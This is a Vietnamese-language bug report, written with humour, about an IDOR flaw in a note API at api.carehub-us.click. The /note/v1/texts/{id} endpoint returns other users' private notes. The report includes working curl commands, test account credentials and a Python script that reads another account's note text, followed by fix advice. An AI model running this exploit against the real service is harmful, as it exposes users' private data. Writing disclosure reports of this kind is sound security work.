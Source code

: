 # BÁO CÁO LỖ HỔNG IDOR - THINKFLOW API

## Thông tin cơ bản
- **Ngày phát hiện:** 19/04/2025
- **Mức độ nghiêm trọng:** CAO VÃI NỒIIIII
- **API bị ảnh hưởng:** https://api.carehub-us.click

## Mô tả lỗ hổng
API cho phép người dùng truy cập nội dung ghi chú của người dùng khác thông qua endpoint `/note/v1/texts/{id}` mà không kiểm tra quyền sở hữu. Đây là một lỗ hổng IDOR nghiêm trọng vl nhé!

![Security Facepalm](https://i.imgur.com/iWKad22.jpg)

## Bằng chứng khai thác (đơn giản như ăn kẹo)
1. Tạo 2 tài khoản riêng biệt:
```bash
# Tài khoản 1 - Kẻ ngây thơ vô số tội
curl -X POST https://api.carehub-us.click/auth/v1/register -H "Content-Type: application/json" \
  -d '{"email":"nihey85233@cotigz.com","password":"Tempemail@123","first_name":"dkr8s","last_name":"j3rh4"}'

# Tài khoản 2 - Hacker mũ đen
curl -X POST https://api.carehub-us.click/auth/v1/register -H "Content-Type: application/json" \
  -d '{"email":"cimos69472@cxnlab.com","password":"Hackpass2@123","first_name":"r9dkf","last_name":"j38k9"}'
```

2. Tạo ghi chú với nội dung bí mật bằng tài khoản 1:
```bash
# Đăng nhập tài khoản 1 - "Đây là bí mật của tôi hehe"
TOKEN1=$(curl -s -X POST https://api.carehub-us.click/auth/v1/authenticate -H "Content-Type: application/json" \
  -d '{"email":"nihey85233@cotigz.com","password":"Tempemail@123"}' | grep -o 'accessToken=[^;]*' | cut -d= -f2)

# Tạo ghi chú bí mật như kiểu "Ai mà đọc được cái này chắc phải hack NASA"
NOTE_ID=$(curl -s -X POST https://api.carehub-us.click/note/v1/notes -H "Content-Type: application/json" \
  -H "Cookie: accessToken=$TOKEN1" -d '{"title":"Secret Note!"}' | grep -o '"data":"[^"]*"' | cut -d'"' -f4)

# Thêm nội dung bí mật - "Để tao cất kĩ vào đây"
TEXT_ID=$(curl -s -X POST "https://api.carehub-us.click/note/v1/texts/note/$NOTE_ID" -H "Content-Type: application/json" \
  -H "Cookie: accessToken=$TOKEN1" -d '{"text_content":"This is a secret data that should not be accessible to others."}' | grep -o '"data":"[^"]*"' | cut -d'"' -f4)

echo "Tạo ghi chú với ID: $NOTE_ID và nội dung ID: $TEXT_ID"
```

3. Đánh cắp dữ liệu bằng tài khoản 2:
```bash
# Đăng nhập tài khoản 2 - "Để xem họ có gì hay ho..."
TOKEN2=$(curl -s -X POST https://api.carehub-us.click/auth/v1/authenticate -H "Content-Type: application/json" \
  -d '{"email":"cimos69472@cxnlab.com","password":"Hackpass2@123"}' | grep -o 'accessToken=[^;]*' | cut -d= -f2)

# Thử truy cập ghi chú của tài khoản 1 qua ID note (API: "Không được đâu nhóc")
curl -X GET "https://api.carehub-us.click/note/v1/notes/ECVMjHZqgvfAj3n" -H "Cookie: accessToken=$TOKEN2"
# Kết quả: {"code":403,"status":"Forbidden","message":"no permission, only note owner or collaborator can do this"}

# Khai thác IDOR - Đọc nội dung ghi chú của tài khoản 1 qua ID văn bản (API: "Ồ, mời vào đọc thoải mái")
curl -X GET "https://api.carehub-us.click/note/v1/texts/DT1HKzkDNAUtYL6" -H "Cookie: accessToken=$TOKEN2"
# Kết quả: {"data":{"id":"...","text_content":"This is a secret data that should not be accessible to others."}}
```

![Hackerman](https://i.kym-cdn.com/entries/icons/original/000/021/807/ig9OoyenpxqdCQyABmOQBZDI0duHk2QZZmWg2Hxd4ro.jpg)

## Script siêu lầy để hack một phát ăn ngay
```python
import requests

# Thông tin tài khoản - "Danh sách nạn nhân"
user1 = {"email": "nihey85233@cotigz.com", "password": "Tempemail@123"}
user2 = {"email": "cimos69472@cxnlab.com", "password": "Hackpass2@123"}

# Đăng nhập vào cả hai tài khoản - "Vào vai diễn thôi"
def login(user):
    r = requests.post("https://api.carehub-us.click/auth/v1/authenticate", json=user)
    return r.cookies.get("accessToken")

token1 = login(user1)  # "Token của người vô tội"
token2 = login(user2)  # "Token của kẻ xấu"

# Trình diễn lỗ hổng IDOR - "Dễ như ăn kẹo"
def exploit_idor(text_id, token):
    headers = {"Cookie": f"accessToken={token}"}
    r = requests.get(f"https://api.carehub-us.click/note/v1/texts/{text_id}", headers=headers)
    return r.json()

# Text ID của tài khoản 1 - "Chìa khóa vào kho báu"
text_id = "DT1HKzkDNAUtYL6"

# Khai thác từ tài khoản 2 - "Và giờ là thời khắc huyền diệu..."
result = exploit_idor(text_id, token2)
print(f"HACK THÀNH CÔNG! Đọc được nội dung riêng tư: {result['data']['text_content']}")
print("Backend developer be like: 'WHY ARE YOU RUNNING???'")
```

## Tác động
- Kẻ tấn công có thể đọc **TẤT CẢ** ghi chú riêng tư của người dùng khác
- Các thông tin nhạy cảm có thể bị lộ, bao gồm dữ liệu cá nhân, tài chính, mật khẩu, thông tin kinh doanh...
- Vi phạm nghiêm trọng về quyền riêng tư của người dùng
- Backend developers sẽ khóc thét khi biết chuyện này

> Dev khi thấy báo cáo lỗi: "Ơ mẹ ơi, quên check quyền rồi!!!"

## Cách khắc phục (Fix gấp nếu không muốn bay job)
1. Thêm kiểm tra quyền sở hữu trong endpoint `/note/v1/texts/{id}` tương tự như đã làm với endpoint `/note/v1/notes/{id}`
2. Thực hiện xác thực người dùng ở tất cả các API endpoints - "Không xác thực = Mời hacker vào nhà"
3. Sử dụng UUID ngẫu nhiên thay vì ID dự đoán được - "Đoán mò ID dễ hơn cả đoán tỉ số bóng đá"

![Fix It Now](https://i.imgflip.com/7rftcu.jpg)

## Kết luận
Lỗ hổng IDOR này nghiêm trọng tới mức dev đọc xong báo cáo có khi phải xin nghỉ phép 1 tuần để hoàn hồn. Khách hàng cần khắc phục ngay nếu không muốn thấy dữ liệu của mình xuất hiện trên dark web với giá 2 đô la.

> "API bảo mật là gì? Ở đây chúng tôi không biết điều đó" - ThinkFlow API, 2025 
